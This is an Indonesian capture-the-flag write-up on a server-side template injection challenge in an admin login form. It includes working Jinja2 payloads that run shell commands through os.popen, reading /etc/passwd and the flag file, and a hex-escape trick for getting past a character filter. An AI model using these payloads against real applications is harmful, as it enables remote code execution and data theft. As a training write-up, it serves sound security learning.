 # SSTI 2

## Deskripsi Soal

Pada challenge ini, diberikan sebuah aplikasi login admin yang rentan terhadap **Server-Side Template Injection (SSTI)**.

File terkait: ![login_admin](SSTI1/SSTI1.png)

## Identifikasi Kerentanan

Aplikasi menggunakan template engine yang tidak melakukan sanitasi input dengan baik, sehingga memungkinkan terjadinya SSTI.

## Langkah Penyelesaian

1. Buka aplikasi dan temukan form login.
2. Input payload SSTI sederhana, misal: `{{7*9}}` pada field username atau password.

   ![Test Payload](SSTI1/SSTI1.1.png)

3. Jika output pada halaman berubah menjadi `63`, maka aplikasi rentan SSTI.

   ![Output](SSTI1/SSTI1.2.png)
   
4. Lanjutkan eksploitasi dengan payload lain, misal untuk membaca file:
   ```
   {{config.__class__.__init__.__globals__['os'].popen('cat /etc/passwd').read()}}
   ```

   ![Eksploitasi File](SSTI1/SSTI1.3.png)
   
5. Ternyata payload diatas telah terblok karena beberapa tanda, cara untuk mengelabuinya adalah menggunakan unicode.
   ```
   {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls -la')|attr('read')()}}
   ```
   ![Berhasil]( )

6. Kita menggunakan payload lain yang dapat membaca flag tersebut
   ```
   {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}

   ```
   ![flag]( )

## Payload yang Digunakan

- `{{7*7}}`
- `{{config.__class__.__init__.__globals__['os'].popen('cat /etc/passwd').read()}}`
- `{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls -la')|attr('read')()}}`
- `{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}`

## Referensi

- [PayloadAllTheThings - SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)